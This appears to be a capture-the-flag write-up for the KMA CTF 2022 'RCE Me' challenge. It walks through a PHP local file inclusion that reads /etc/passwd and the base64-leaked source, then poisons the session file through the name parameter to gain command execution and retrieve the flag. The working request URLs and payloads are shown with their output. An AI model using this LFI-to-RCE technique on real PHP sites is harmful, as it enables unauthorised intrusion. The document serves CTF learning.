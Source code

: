 # KMA CTF 2022 - RCE Me

**hint**: I am using php-fpm alpine docker

**Vulnerable to LFI**: `http://rce-me.ctf.actvn.edu.vn/?l=/etc/passwd`
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin utmp:x:100:406:utmp:/home/utmp:/bin/false
```

Let's try to read source code using `php wrapper`: `http://rce-me.ctf.actvn.edu.vn/?l=php://filter/convert.base64-encode/resource=index.php`
```php
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

The idea very is very clear, if we can read php session file, we can using `name parameter` to inject PHP code to session file to get RCE:

**PHP session file location**: Just google it, stack overflow,.. try everything... haizz!!

First check the value of `session.save_path` using `ini_get('session.save_path')` or `phpinfo()`. If that is non-empty, then it will show where the session files are saved. In many scenarios `it is empty by default`, in which case read on:
On `Ubuntu or Debian` machines, if `session.save_path is not set`, then session files are saved in `/var/lib/php5`.

On `RHEL and CentOS` systems, if `session.save_path is not set`, session files will be saved in `/var/lib/php/session`

I think that if you `compile PHP from source`, then when `session.save_path is not set`, session files will be saved in `/tmp`.

And yes, your php session location is: 
```
/tmp/_sess[YOUR-PHP-SESSION-ID]
```

**Try**: `http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1`
```html
name|N;
```

`http://rce-me.ctf.actvn.edu.vn/?l=/tmp/sess_sd8vma27g1tuo0e6e1v7e18jj1&name=<?php system('id'); ?>`
```html
name|s:22:"uid=82(www-data) gid=82(www-data) groups=82(www-data),82(www-data) ";
```

Do some simple rce, we found file contain the flag: `flag_KMACTF_hihi_do_anh_bat_duoc_em.txt`

**flag**: `KMACTF{Do_anh_session_duoc_em_hihi}` 
